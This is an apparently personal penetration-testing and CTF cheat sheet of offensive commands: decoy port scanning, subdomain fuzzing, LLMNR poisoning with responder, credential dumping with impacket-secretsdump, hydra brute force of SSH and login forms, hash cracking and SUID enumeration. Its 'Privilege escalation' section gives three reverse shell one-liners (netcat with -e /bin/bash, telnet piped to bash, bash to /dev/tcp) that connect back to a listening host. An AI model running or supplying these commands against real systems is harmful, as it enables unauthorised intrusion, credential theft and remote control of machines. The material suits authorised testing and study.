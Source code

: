 ## Pentest
Commands used on pentests or CTF's. Some of it can be outdated or wrong, so always check the docs/help of each command for detail.

### Recon
* `nmap -D RND:20 --open -sS -sV -v -Pn --top-ports 100 -oN arquivo domain/ip `
* `wfuzz -c -f sub-fighter.txt -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://cyprusbank.thm' -H "Host: FUZZ.cyprusbank.thm" --hw 3 -v` - subdomain fuzzing
* `wfuzz -w wordlist -u URL -H 'Host: FUZZ.site.com' --hc 400,404 -t 150 -c` - subdomain fuzzing
* `whatweb -a 4` - website technologies enumeration
* `nikto -host IP -Display 3 -evasion 1,4 -followredirects -o nikto.txt -port 999 -Pause 999 -useragent pentest` - plugins can be used individually with the flag `-Plugins "name;name"`
* `netdiscover` - discover active hosts on local network, similar to `nmap -sn`
* `netexec smb 1.1.1.1/24 -u user -p password -x command` - discover local SMB clients on Windows enviroments and try to run a command with authenticated user
* `sudo responder -I eth0 -v` - listen and respond for LLMNR, MDNS and NTB-NS protocols to obtain NTLM credentials
* `rpcclient -W domain -U user 10.0.0.1` - connect on rpc
* `impacket-secretsdump domain/user:'pass'@10.1.1.1` - dump credentials from host

### Brute Force
* `hydra -v -t10 -l user -P password_wordlist.txt service -s port` - service (as ssh, ftp) brute force using password wordlist
* `hydra -l user -P /wordlist/file.txt IP http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid" -V` - POST request brute force. To obtain the parameters, login once using a proxy (such as burp suite), intercept the request and copy the values to the command. `F=Username or password invalid` is a string returned on the "failed login" page. Use --help for detail
* `crunch 10 10 -t password^%% -o file` and `cewl dominio.com.br -m 5` - create password mutations
* `hash-identifier HASH` - identify hash
* `john --wordlist= --format= hash_file` - brute force password hash
* `hashcat -m 100 hash_file /wordlist/path —force` - brute force password hash
* `impacket-secretdump -sam sam_file -system system_file LOCAL`
* `unshadow system sam`

### OS commands
- `sed 's/https/http/' enum/gobuster* | sort -u | grep -vi 404` - sed, used to replace strings
- `grep -oP '(?<=href=")[^/]+'` - extract information using regex
- `grep -E 'pattern1|pattern2' fileName_or_filePath` - filter for multiple patterns
- `for i in $(seq 0 10); do echo "192.168.1."$i; done > arquivo.txt`
- `cat arquivo.txt | xargs -i ping {} -c 1` - results of cat are used in `xargs`, one at a time
- `printf "%d\n" 0xFF` - convert hex to decimal. Ex.: `printf "%d\n" 0x8952dc10`
- `useradd -d /dir/path -s /bin/bash user` or `adduser name group` - add user or group
- `iptables -A INPUT -p tcp --dport 21 -s 1.1.1.1 -j ACCEPT`: accept only from specific source IP (`-s`) on port

### Metasploit
- `sudo systemctl start postgresql && sudo msfdb init` - initiate metasploit database

### Tcpdump & Wireshark
- `tcp.payload contains “term”` - filter for specific term on a packet
- `frame contains “word”` - filter for specific word
- `tcpdump -tvenr file.pcap tcp and src host 192.168.0.10 | cut -d "," -f1 | cut -d " " -f5,6,7,8,9 | grep -i "\[F\.\]" | sort -u` - IP filter for tcpdump

### Metadata & Forensics
- `exiftool arquivo.png` - file metadata
- `vinetto -Ho /var/www/vinetto/ Thumbs.db` - extract thumbs from files
- `binwalk -e file` - check for hiden files
- `steghide extract -sf file.jpg -xf extracted.txt` - extract files hidden with steganography
- `stegseek imagem_com_steg.jpg /caminho/wordlist` - brute force on steganography hidden files

### Privilege escalation
- Open with `nc -nvlp PORT` and send `nc -vn IP PORT -e /bin/bash`
- Open with `nc -nvlp PORT` and send `telnet 192.168.1.111 5050 | /bin/bash | telnet 192.168.1.111 5051`
- Open with `nc -nvlp PORT` and send `bash -i > /dev/tcp/1.1.1.1/5050 0>&1`

### Reverse Shells
- [GTFOBins](https://gtfobins.github.io/)
- [Checklist](https://book.hacktricks.wiki/en/linux-hardening/linux-privilege-escalation-checklist.html#best-tool-to-look-for-linux-local-privilege-escalation-vectors-linpeas)
- `ps axjf` - show process in tree format
- `find / -type d -name dir` - find directory
- `find / -perm a=x` - find files with execution permission
- `find / -writable -type d 2>/dev/null`, `find / -perm 222 -type d 2>/dev/null`, `find / -perm -o w -type d 2>/dev/null` - find directory with write permission
- `find / -perm -u=s -type f 2>/dev/null` or `find / -type f -perm -04000 -ls 2>/dev/null` - find SUID
- `sudo -l` - find sudo execution permissions
### Web
#### Enumeration
- `nikto -host IP -Display 3 -evasion 1,4 -followredirects -o nikto.txt -port 999 -Pause 999 -useragent pentest` - plugins can be used with `-Plugins "nome;nome"`
- `gobuster dir -u http://site -e --no-error -w wordlist -o gobuster.txt -t 100 -r --random-agent`
- `gobuster dns -d 10.10.236.183 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -t 100` - subdomain
- `curl -v -X OPTIONS http://site.com.br` - test for accepted methods

